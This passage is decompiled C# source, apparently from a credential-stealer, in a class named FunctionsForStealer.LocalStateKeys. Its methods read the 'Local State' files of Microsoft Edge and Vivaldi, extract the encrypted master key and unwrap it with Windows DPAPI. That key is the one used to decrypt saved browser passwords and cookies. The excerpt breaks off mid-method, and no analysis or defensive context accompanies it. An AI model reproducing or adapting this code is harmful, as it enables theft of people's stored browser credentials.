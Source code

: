 ```csharp
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001E RID: 30 RVA: 0x00003384 File Offset: 0x00001584
			public static byte[] GetKeyEdge()
			{
				string text = Variables.localappdata + "\\Microsoft\\Edge\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001F RID: 31 RVA: 0x000034B4 File Offset: 0x000016B4
			public static byte[] GetKeyVivaldi()
			{
				string text = Variables.localappdata + "\\Vivaldi\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 == null)
				{
```